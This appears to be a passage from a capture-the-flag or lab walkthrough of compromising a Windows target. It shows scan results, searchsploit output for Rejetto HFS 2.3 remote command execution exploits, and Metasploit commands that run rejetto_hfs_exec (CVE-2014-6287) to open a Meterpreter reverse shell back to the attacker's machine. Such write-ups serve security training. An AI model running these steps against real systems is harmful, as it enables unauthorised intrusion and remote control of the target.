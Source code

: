 ```text
           Raw packets sent: 66982 (2.947MB) | Rcvd: 66685 (2.667MB)
```

A website running on port 80, RPC, SMB using port 139 and 445) and some HTTP related services on 5985, 8080 and 47001. 
There is also a SSL service running on port 3389, which encrypts RDP sessions.

The http server on port 8080 is running HFS 2.3.

## Gaining a foothold

```text
─# searchsploit http file server -w
------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                           |  URL
------------------------------------------------------------------------- --------------------------------------------
...
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)      | https://www.exploit-db.com/exploits/34668
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)      | https://www.exploit-db.com/exploits/39161
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution | https://www.exploit-db.com/exploits/34852
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)              | https://www.exploit-db.com/exploits/49125
...
------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
Papers: No Results
```

There are several exploits possible for version 2.3.x. 
[Remote Command Execution (1)](https://www.exploit-db.com/exploits/34668) gives the CVE.

```text
# msfconsole
[*] Starting persistent handler(s)...
msf6 > search 2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

Use the one given exploit and set its options:

```text
msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS <IP address target>
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST IP <IP address attack machine>
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on <IP address attack machine>:4444 
...
[*] Meterpreter session 1 opened (<IP address attack machine>:4444 -> <IP address target machine>:49186) at 2022-09-28 00:57:13 +0100
[*] Server stopped.
```
